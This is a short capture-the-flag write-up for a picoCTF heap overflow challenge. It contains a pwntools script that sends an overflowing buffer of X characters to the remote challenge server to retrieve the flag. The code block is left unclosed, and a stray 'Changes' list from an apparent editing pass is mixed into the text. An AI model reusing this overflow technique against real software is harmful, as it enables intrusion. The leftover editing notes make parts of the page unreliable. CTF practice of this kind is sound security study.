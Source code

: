 # Description

Can you handle function pointers?  
Download the binary [here](#).  
Download the source [here](#).  
Additional details will be available after launching your challenge instance.

---

# Solution

The first step is to use `wget` to download the source code and the executable file.  
You'll need to use the `pwntools` library because simply interacting manually won't reveal the flag. Using `print(p.recvall())` ensures you capture all the output.

Below is a simple Python script using `pwntools` to automate the process:

```python
from pwn import *  # Import from the pwntools library

# Connect to the remote server
p = remote("mimas.picoctf.net", 49262)

# Send the first input
p.sendline(b"2")

# Receive the prompt for buffer
p.recvuntil(b"buffer:")

# Send a payload to overflow the heap
p.sendline(b"XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX")

# Receive the next prompt
p.recvuntil(b"choice:")

# Send the choice to proceed
p.sendline(b"4")

# Receive and print the flag
print(p.recvall())  # Receive the flag and analyze the difference between heap_01 and heap_02

### Changes:
1. Improved grammar and readability.
2. Added placeholder links for the binary and source files.
3. Properly formatted the script in a code block.
4. Used clear headings and spacing for better structure.

Before copying the code, take a moment to understand each step.
Good luck, and I hope this brings you success and happiness! 🙂
